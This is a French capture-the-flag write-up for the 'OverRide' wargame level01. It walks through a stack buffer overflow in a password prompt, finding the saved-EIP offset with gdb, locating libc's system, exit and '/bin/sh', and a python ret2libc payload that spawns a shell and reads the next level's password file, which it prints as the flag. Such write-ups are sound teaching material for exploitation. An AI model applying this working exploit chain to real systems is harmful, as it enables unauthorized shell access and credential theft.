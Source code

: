 # Level 01

### Protections

![](Ressources/protections.png)

### Analyse

Le programme recoit 2 entrees en `stdin` grace a `fgets()`.

* La premiere est un **username** stocke dans un buffer de 256 octets dont l'adresse est plutot eloignee par rapport au reste du programme, dans la section `.bss`.
* La deuxieme entree est un **password** stocke dans un buffer de 64 octets. Cependant, le `fgets()` lit 100 octets, Buffer Overflow possible a cet endroit.

Le programme utilise ses fonctions `verify_user_name` et `verify_user_pass`, completement inutiles, on remarque que les bons identifiants sont `dat_wil` et `admin` mais cela n'a aucun impact sur le comportement du programme si ce n'est quitter le programme en cas de mauvais username.

On va donc entrer le bon username `dat_wil` puis se concentrer sur le potentiel Overflow dans le second `fgets()`.

### Exploitation

On commence par utiliser un Overflow Pattern Generator ([https://wiremask.eu/tools/buffer-overflow-pattern-generator/](https://)) pour detecter voir si un overflow sur le Saved-eip est possible et detecter son Offset.

> level01@OverRide:~$ gdb ./level01
> (gdb) r
> Starting program: /home/users/level01/level01
> ********* ADMIN LOGIN PROMPT *********
> Enter Username: dat_wil
> verifying username....
>
> Enter Password:
> Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
> nope, incorrect password...
>
> Program received signal SIGSEGV, Segmentation fault.
> 0x37634136 in ?? ()

Un pattern cyclique de 100 octets nous revele un segfault a `0x37634136` soit "7cA6".

Le Little-endian s'applique ici -> 6Ac7. La position de cette suite dans notre pattern est 80. Donc une modification du saved-eip est possible a partir de 80 octets.

##### Elaboration de la Strategie

On sait donc que l'on peut modifier le comportement du programme et modifier la prochaine instruction qui suit le `main()` definie par le saved-eip.

On va donc s'interesser aux attaques de type **Ret2Libc**.

Plutot que d'injecter un Shellcode et une adresse qui pointe vers celui-ci, nous allons appeler des fonctions de bibliotheques partagees deja presentes en memoires.

On va donc appeler `system`, `"/bin/sh"` et `exit`. Pour cela rien complique, il nous suffit de localiser ces elements dans la memoire puis de les injecter dans l'ordre a notre offset.

##### Execution

Pour trouver `system()` et `exit()` on va simplement utiliser **gdb** comme ceci.

> (gdb) b *main+5
> Breakpoint 2 at 0x80484d5
> (gdb) r
>
> Breakpoint 1, 0x080484d5 in main ()
>
> (gdb) disas system
> Dump of assembler code for function system:
> 0xf7e6aed0 <+0>:     sub    $0x1c,%esp
> ......................................
> End of assembler dump.
>
> (gdb) disas exit
> Dump of assembler code for function exit:
> 0xf7e5eb70 <+0>:     push   %ebx
> ......................................
> End of assembler dump.

Il nous suffit de prendre les l'adresses de la premiere instruction de chaque fonction.

`system()`: 0xf7e6aed0

`exit()`: 0xf7e5eb70

Pour trouver la string "/bin/sh", on localise d'abord l'adresse de depart de la `libc`:

> (gdb) info proc mappings
> process 1770
> Mapped address spaces:
>
> Start Addr   End Addr       Size     Offset objfile
> .......... ..........   ........   ........ ...................
> 0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
> 0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
> 0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
> 0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
> .......... ..........   ........   ........ ...................

La `libc` debute a l'adresse `0xf7e2c000`. On va donc pouvoir utiliser `find` et trouver "/bin/sh".

> (gdb) find 0xf7e2c000, +10000000, "/bin/sh"
> 0xf7f897ec
>
> (gdb) x/s 0xf7f897ec
> 0xf7f897ec:      "/bin/sh"

Une fois ces 3 elements reunis, on n'a plus qu'a les injecter dans le bon ordre, le saved-eip sera ecrase et notre injection sera executee.

> (python -c 'print "dat_wil"'; python -c 'print "A"*80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level01

> ********* ADMIN LOGIN PROMPT *********
> Enter Username: verifying username....
>
> Enter Password:
> nope, incorrect password...
>
> whoami
> level02
> cat /home/users/level02/.pass
> PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

Notre flag est donc: **PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv**
